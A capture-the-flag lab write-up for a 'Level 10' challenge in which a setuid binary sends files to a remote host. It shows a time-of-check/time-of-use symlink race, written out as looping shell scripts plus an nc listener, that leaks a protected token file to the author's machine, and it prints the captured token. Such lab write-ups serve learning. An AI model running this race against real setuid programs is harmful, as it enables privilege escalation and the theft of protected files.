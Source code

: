 ## Level 10
    
In this level, we have an executable which will send a file to a remote host.
    ls -l
    
            -rwsr-s---+ 1 flag10 level10 8617 Mar  5  2016 level10
            -rw-------  1 flag10 flag10    26 Mar  5  2016 token

We can create a symlink to try to read the content in token file (symlink race)

    ln -s /home/user/level10/token /tmp/flag

Now let's try to send my file to the server

    ./level10 /tmp/flag 192.168.56.101
        You don't have access to /tmp/flag
    cat /tmp/flag
            cat: /tmp/flag: Permission denied

Nope, still unable to execute my flag and to send it to a server

To open a port in your machine:
    nc -l 6969

let's get the executable to my host with scp

    scp -P 4242 level10@192.168.56.101:/tmp/flag /mnt/nfs/homes/emaugale/Desktop

So you have to find a way to make your file accessible to the server.

when we use ltrace, we can see that the executable will first try to access our file, and after that, reading the content of the file.
    -> Do a /tmp/flag file with nothing on int
    when it will be access, we can delete it and recreate one which will be a symlink to the token file
    launch our server and print the result  

        while true;
            do
            touch /tmp/link
            rm -f /tmp/link
            ln -s /home/user/level10/token /tmp/link
            rm -f /tmp/link
            done


        while true;
        do
        /home/user/level10/level10 /tmp/link 192.168.56.101 2> /dev/null
        done


bash /tmp/script1.sh & bash /tmp/script2.sh

Check flag.Here is your token : feulo4b72j7edeahuete3no7c
